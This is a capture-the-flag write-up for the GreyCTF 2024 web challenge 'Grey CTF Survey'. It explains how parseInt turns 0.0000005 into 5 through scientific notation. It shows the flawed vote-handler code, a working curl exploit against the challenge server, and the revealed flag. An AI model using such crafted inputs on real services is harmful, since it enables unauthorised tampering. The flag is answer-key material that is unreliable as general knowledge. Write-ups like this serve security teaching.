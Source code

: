```yaml
---
title: Grey CTF Survey
categories: [GreyCTF 2024, Web]
date: 2024-04-20
date_time: 2024-04-20 18:09
tags: 
- js/parseInt
details: Improper use of `parseInt` leads to unexpected results	
difficulty: 2
solved: yes
solution: "https://github.com/NUSGreyhats/greyctf24-challs-public/tree/main/quals/web/greyctf-survey"
img_path: /Writeups/CTF/GreyCTF%202024/Web/Grey%20CTF%20Survey/attachments/
image:
  src: ../../Beautiful%20Styles/attachments/Beautiful%20Styles-20240510000105525.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```


# Source Code Analysis

```
app.post('/vote', async (req, res) => {
    const {vote} = req.body;
    if(typeof vote != 'number') {
        return res.status(400).json({
            "error": true,
            "msg":"Vote must be a number"
        });
    }
    if(vote < 1 && vote > -1) {
        score += parseInt(vote);
        if(score > 1) {
            score = -0.42069;
            return res.status(200).json({
                "error": false,
                "msg": config.flag,
            });
        }
        return res.status(200).json({
            "error": false,
            "data": score,
            "msg": "Vote submitted successfully"
        });
    } else {
        return res.status(400).json({
            "error": true,
            "msg":"Invalid vote"
        });
    }
})
```
>Vulnerability Details:
>[Solving a Mystery Behavior of parseInt() in JavaScript](https://dmitripavlutin.com/parseint-mystery-javascript/)
>- User input, an integer is passed into `parseInt()`, causing an unexpected value.
>- When an integer is passed into `parseInt()` 
>	1. it is converted to a string then into an integer again, 
>	2. if a number gets too large/small, "[Scientific Notation](https://en.wikipedia.org/wiki/Scientific_notation)" is used
>	3. So `0.0000005` turns into `5e-7` (String) and then `5` (int)
{: .prompt-info}

```
String(0.5); // => '0.5'  

String(0.05); // => '0.05'  

String(0.005); // => '0.005'  

String(0.0005); // => '0.0005'  

String(0.00005); // => '0.00005'  

String(0.000005); // => '0.000005'  

String(0.0000005); // => '5e-7' => 5
```



# Solution

```
┌──(root💀kali)-[~/boxes/nusgreyhat/WEB/Grey CTF Survey]
└─$ curl -H "Content-Type: application/json" -d '{"vote":0.0000005}' http://challs.nusgreyhats.org:33334/vote
{"error":false,"msg":"grey{50m371m35_4_l177l3_6035_4_l0n6_w4y}"}   
```



